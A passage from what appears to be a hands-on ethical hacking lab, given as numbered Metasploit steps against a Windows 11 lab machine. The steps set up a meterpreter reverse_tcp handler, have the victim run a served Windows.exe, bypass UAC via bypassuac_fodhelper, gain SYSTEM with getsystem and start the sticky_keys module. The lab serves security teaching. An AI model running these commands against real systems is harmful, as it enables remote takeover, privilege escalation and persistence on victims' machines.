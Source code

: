 	9. Type msfconsole in the terminal window and press Enter to launch Metasploit Framework.
	
	10. In Metasploit type use exploit/multi/handler and press Enter.
	11. Now, type set payload windows/meterpreter/reverse_tcp and press Enter.
	
	12. Type set lhost 10.10.1.13 and press Enter to set lhost.
	13. Type set lport 444 and press Enter to set lport.
	14. Now, type run in the Metasploit console and press Enter.
	
	15. Click Windows 11 to switch to the Windows 11 machine.
	16. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type http://10.10.1.13/share and press Enter. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
	17. Click on Windows.exe to download the file.
	
	18. Once you click on the Windows.exe file, the Opening Windows.exe pop-up appears click on Save File.
	
	19. Double-click the Windows.exe file. The Open File - Security Warning window appears; click Run.
	
	20. Leave the Windows 11 machine running and click Parrot Security to switch to the Parrot Security machine.
	
	21. The Meterpreter session has successfully been opened, as shown in the screenshot.
	22. Type sysinfo and press Enter. Issuing this command displays target machine information such as computer name, OS, and domain.
	
	23. Type getuid and press Enter, to display current user ID.
	
	24. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
	25. Type background and press Enter, to background the current session.
	
	26. Type search bypassuac and press Enter, to get the list of bypassuac modules.
In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit.
	
	27. In the terminal window, type use exploit/windows/local/bypassuac_fodhelper and press Enter.
	28. Type set session 1 and press Enter.
	29. Type show options in the meterpreter console and press Enter.
	
	30. To set the LHOST option, type set LHOST 10.10.1.13 and press Enter.
	31. To set the TARGET option, type set TARGET 0 and press Enter (here, 0 indicates nothing, but the Exploit Target ID).
	32. Type exploit and press Enter to begin the exploit on Windows 11 machine.
	
	33. The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 11 machine.
	34. Type getsystem -t 1 and press Enter to elevate previleges.
	
	35. Now, type getuid and press Enter, The meterpreter session is now running with system previleges.
	
	36. Type background and press Enter to background the current session.
	
	In this task, we will use sticky_keys module present in Metasploit to exploit the sticky keys feature in Windows 11.
	37. Type use post/windows/manage/sticky_keys and press Enter.
	38. Now type sessions i* and press Enter to list the sessions in meterpreter.
	